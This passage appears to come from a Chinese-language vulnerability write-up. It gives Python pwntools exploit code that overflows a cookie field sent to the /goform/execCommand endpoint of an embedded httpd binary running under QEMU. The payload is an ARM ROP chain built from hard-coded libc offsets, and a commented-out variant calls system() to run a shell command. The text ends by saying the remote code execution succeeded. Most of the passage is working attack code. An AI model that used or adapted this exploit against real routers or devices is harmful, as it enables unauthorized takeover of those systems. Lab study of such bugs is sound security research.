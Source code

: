 ```python

cookie = {"Cookir":"password="+cyclic(444) + ".gif" 
+ flat(pop_r3_pc, puts_addr, mov_r0_sp_blx_r3)+ "hello world!!!!!" }

ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

或者是python3

需要把pwntools生成的payload使用'LATIN1'进行encoding

```python
# python3
import requests
from pwn import *

context.binary = "bin/httpd"
# context.log_level = "debug"
libc = ELF("lib/libc.so.0")
puts_offset = libc.symbols["puts"]

libc_base_addr = 0xf65e5000
pop_r3_pc = libc_base_addr + 0x00018298
mov_r0_sp_blx_r3 = libc_base_addr + 0x00040cb8
puts_addr = libc_base_addr + puts_offset

ip  = "192.168.129.131"
url = "http://%s/goform/execCommand"%ip
# cookie = {"Cookir":"password="+cyclic(444) + ".gif" 
# + flat(libc_base_addr+pop_r3_pc, libc_base_addr+system_offset, libc_base_addr+mov_r0_sp_blx_r3)+ "touch ./abcd" }

#print(type(cyclic(400)))
#print(type(flat(pop_r3_pc, puts_addr, mov_r0_sp_blx_r3)))

cookie = {"Cookir":"password="+str(cyclic(444), encoding='LATIN1') + ".gif"\
+ str(flat(pop_r3_pc, puts_addr, mov_r0_sp_blx_r3), encoding='LATIN1')+ "hello world!!!!!" }

ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

在qemu运行界面可以看到, 说明rce成功
